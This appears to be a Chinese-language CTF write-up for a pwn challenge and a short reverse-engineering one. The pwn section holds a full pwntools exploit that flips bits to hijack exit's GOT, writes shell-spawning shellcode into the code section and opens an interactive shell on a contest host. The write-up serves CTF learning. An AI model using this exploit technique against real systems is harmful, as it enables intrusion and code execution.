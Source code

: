 \documentclass[11pt]{article}
\begin{document}
\subsection{lose yourself}
\label{sec:org7708e5c}
给了一个mprotect后门让.text段可写。程序的功能是每次修改任意地址的1个bit。那思路就是想办法跳转到mprotect后门，然后在代码段写入shellcode，最后想办法跳过去。

所以第一步是想办法跳到后门上。注意到在写完bit后用了一个exit。第一次修改就改exit的got。作者精心准备了一连串的空函数作为跳板，跟着走到最后能把exit的got改成后门地址。
\begin{verbatim}
from pwn import *
import binascii
from Crypto.Util.strxor import strxor
context.arch="amd64"
context.terminal = ['tmux', 'splitw', '-h']
p = process("one_chance")
p = remote("10.212.27.23", "12138")

def flip_bit(addr, bitnum):
    p.recvuntil("?")
    p.sendline(addr)
    p.sendline(bitnum)

# call mprotect
flip_bit("404039", "0")
flip_bit("404038", "6")
flip_bit("404038", "7")
flip_bit("404038", "2")
flip_bit("404038", "1")
\end{verbatim}
然后往0x10e1写入shellcode，这样就能通过改最后jmp地址的一位跳过去。
\begin{verbatim}
# write shellcode
dump_10e1 = binascii.unhexlify("50 54 49 C7 C0 10 13 40 00 48 C7 C1 A0 12 40 00 48 C7 C7 D5 11 40 00 FF 15 F2 2E 00 00 F4 90 F3 0F 1E FA C3 66 2E 0F 1F 84 00 00 00 00 00 90 B8".replace(" ", ""))
shellcode = asm(shellcraft.amd64.linux.sh())
modi_bytes = strxor(dump_10e1, shellcode)
for idx, i in enumerate(modi_bytes):
    if i != '\x00':
        log.success("flipping "+hex(int("0x4010e1", 16)+idx))
        for j in range(8):
            if 2**j & ord(i) != 0:
                p.recvuntil("?")
                p.sendline(hex(int("0x4010e1", 16)+idx))
                p.sendline(str(j))

# modify jmp
p.recvuntil("?")
p.sendline("401299")
p.sendline("0")
p.interactive()
\end{verbatim}
\section{re}
\label{sec:org21b000e}
\subsection{snake}
\label{sec:org3aa16d4}
其实直接动态调试就能出来。但我开始没想到，用python des解密出来的。
\begin{center}
\texttt{[image: /img/2023-04-26\_snake.png]}
\end{center}
flag 用des加密后存在数据段。密钥直接写在代码里
\begin{center}
\texttt{[image: /img/2023-04-26\_desdecrypt.png]}
\end{center}
\end{document}
